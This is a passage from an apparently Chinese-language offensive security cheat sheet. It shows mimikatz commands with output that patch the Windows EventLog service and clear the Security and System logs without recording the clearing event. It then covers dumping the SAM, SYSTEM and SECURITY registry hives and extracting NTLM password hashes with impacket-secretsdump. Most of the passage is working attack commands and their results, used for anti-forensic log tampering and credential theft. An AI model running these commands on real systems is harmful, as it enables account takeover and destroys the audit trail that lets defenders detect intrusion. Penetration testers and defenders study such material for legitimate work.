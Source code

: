 `event::drop`：patch 事件服务，以避免新事件产生

`event::clear`：清除事件日志

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # event::drop
"EventLog" service patched

mimikatz # event::clear
Using "Security" event log :
- 2312 event(s)
- Cleared !
- 0 event(s)

mimikatz #
```

> 运行 `privilege::debug`，然后运行 `event::drop` 以 patch 事件日志。然后运行 `event::Clear` 清除事件日志，不记录任何日志清除事件（1102）。

`/log`：指定要清除的事件日志。默认的是 Security 日志。

```
mimikatz # event::clear /log:System
Using "System" event log :
- 3865 event(s)
- Cleared !
- 0 event(s)
```

## Dump Credentials from the Windows Registry

转储 SAM & SYSTEM 注册表：

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

使用 impacket-secretsdump 从注册表文件中获取哈希：

```
root@kali-server:~# impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x4d1852164a0b068f32110659820cd4bc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64d4b4314b59fb051020a12f09effcac:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

也可以使用 mimikatz 从注册表转储文件中读取哈希：
